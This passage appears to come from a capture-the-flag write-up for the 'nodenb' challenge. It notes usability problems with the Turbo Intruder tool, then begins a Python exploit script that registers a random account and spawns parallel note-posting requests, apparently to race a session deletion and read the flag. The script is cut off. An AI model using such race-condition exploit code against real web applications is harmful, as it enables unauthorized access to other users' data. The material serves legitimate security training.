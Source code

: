 The less good:
 1. Turbo Intruder's python script is slightly opaque. At first, it is hard to know what variables and functions are in scope and what gets called when. Examples: Where does the `table` object come from? What is in `req` object that is passed to our callbacks? Which methods/attributes does it have? Why do we place our code in a function called `queueRequests`? etc. My best solution to this problem was to read the Turbo Intruder's source code. The most interesting code was in the `evalJython` function in [fast-http.kt](https://github.com/PortSwigger/turbo-intruder/blob/master/src/fast-http.kt) where you can see that variables `target`, `wordlists`, `table`, and more are injected into the python environment. You will also notice that it will run the [ScriptEnvironment.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/ScriptEnvironment.py) file, execute our turbo intruder code, and finally run `queueRequests(target, wordlists)`.
 2. Making a simple request to get cookies with Turbo Intruder is not as easy as with `requests.post`. In Turbo Intruder you have to specify the whole request by hand, including setting up cookies, Content-Length, body params, etc. My best solution is to make the request in the browser and copy it as a starting point. You still might have to update the Content-Length, but it is better than nothing.

**TIP**: use the Extender tab to see any `Output` and `Errors` that Turbo Intruder generates.

## Exploits
Intended exploit
```python
import string
import random
import requests
from multiprocessing import Process
from time import sleep

url = 'https://nodenb.flu.xxx'
s = requests.Session()

def register(u,p):
    r = s.post(url+"/register",data={"username":u,"password":p})
    return r

def login(u,p):
    r = s.post(url+"/login",data={"username":u,"password":p})
    return r

def deleteme():
    r = s.post(url+"/deleteme")
    return r

def get_flag():
    r = s.get(url+"/notes/flag")
    print(r.text)
    return r

def sussy_notes(title, content, sleeper, s):
    p = "/notes?random=true" if sleeper else "/notes"
    r = s.post(url+p, data={"title":title,"content":content})

if __name__ == '__main__':
    u = ''.join([random.choice(string.ascii_letters) for _ in range(16)])
    p = ''.join([random.choice(string.ascii_letters) for _ in range(16)])

    r1 = register(u,p)
    l1 = login(u,p)

    c = s.cookies.get("connect.sid")

    p = Process(target=sussy_notes, args=("asd","def",True,s))
    p.start()
```